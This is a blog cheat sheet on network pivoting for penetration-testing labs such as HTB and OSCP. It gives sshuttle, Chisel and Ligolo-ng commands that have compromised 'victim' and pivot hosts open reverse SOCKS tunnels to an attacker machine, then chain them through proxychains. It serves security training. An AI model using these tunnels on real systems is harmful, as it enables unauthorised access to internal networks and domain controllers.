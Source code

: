 ```yaml
---
layout: post
title:  "Pivoting - Cheat Sheet"
author: nanobyte
date:   2023-06-27
description: Pivoting Cheat Sheet
tags: HTB OSCP Pivoting
---
```


[Part 1](https://nanobytesecurity.com/2023/06/26/pivoting-basics-part1.html), pivoting introduction and using SSHuttle\
[Part 2](https://nanobytesecurity.com/2023/06/26/chisel-pivoting-part2.html), pivoting with Chisel\
[Part 3](https://nanobytesecurity.com/2023/06/26/ligolo-pivoting-part3.html), pivoting with Ligolo-ng\
[Pivoting Cheat Sheet](https://nanobytesecurity.com/2023/06/27/pivoting-cheatsheet.html), pivoting cheat sheet

<h3>SSHuttle</h3>

{% highlight bash linenos %}
sshuttle -r root@<victim> <distant network> -x <victim eth2> --ssh-cmd 'ssh -i id_rsa.key'
{% endhighlight %}

Chisel

{% highlight bash linenos %}
Make sure to use the same versions, on target and host machines!
# Attacking Box:
./chisel server -p 80 --reverse

# Victim Box (IP is to our Kali Machine):
./chisel.exe client 10.10.14.18:80 R:socks
{% endhighlight %}

Place this into /etc/proxychains4.conf:

{% highlight bash linenos %}
socks5 127.0.0.1 1080
{% endhighlight %}

<h4>Triple Pivoting (Oh My!)</h4>h4>

On Kali:


{% highlight bash linenos %}
./chisel server -p 80 --reverse
{% endhighlight %}

First pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:1080:socks
{% endhighlight %}

Second pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:2080:socks
{% endhighlight %}

Third pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:3080:socks
{% endhighlight %}

Change /etc.proxychains4.conf:


{% highlight bash linenos %}
# Change to Dynamic Chain:
#strict_chain
dynamic_chain

# Add our chisel proxies
socks5 127.0.0.1 3080
socks5 127.0.0.1 2080
socks5 127.0.0.1 1080
{% endhighlight %}

<h3>Ligolo-ng</h3>

To setup ligolo-ng, on Kali:

{% highlight bash linenos %}
# This will create a new TUN interface
sudo ip tuntap add user [your_username] mode tun ligolo

# This will set the link on yhe nee interface to up
sudo ip link set ligolo up

# This will add a route to the new tunnel.
# NOTE this is where you insert the new subnet you want to access.
sudo ip route add 172.16.5.0/24 dev ligolo
{% endhighlight %}

Once added, we can run the proxy on Kali:

{% highlight bash linenos %}
./proxy -selfcert
{% endhighlight %}

Then, from the Pivot machine, we can run the agent command:

{% highlight bash linenos %}
./agent -connect 10.10.14.10:11601 -ignore-cert
{% endhighlight %}

On our Proxy on Kali, we should see a connection back:

{% highlight bash linenos %}
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

Made in France ♥ by @Nicocha30!

ligolo-ng » INFO[0024] Agent joined. name="DOMAIN\\Administrator@DC01" remote="10.10.110.3:49821"
We can then run the session and start commands:
ligolo-ng » session
? Specify a session : 1 - DOMAIN\Administrator@DC01 - 10.10.110.3:49821

[Agent : DOMAIN\Administrator@DC01] » start
[Agent : DOMAIN\Administrator@DC01] » INFO[0359] Starting tunnel to CORP\Administrator@DC01
{% endhighlight %}

<h4>Double Pivoting</h4>

Once we have multiple agents, we can quickly change the interaction between which one to use:

{% highlight bash linenos %}
[Agent : DEV\Administrator@DC02] » session
? Specify a session :  [Use arrows to move, type to filter]
> 6 - DOMAIN\Administrator@DC01 - 10.10.110.3:18115
  7 - DOMAIN\Administrator@DC02 - 10.10.110.3:33051
{% endhighlight %}

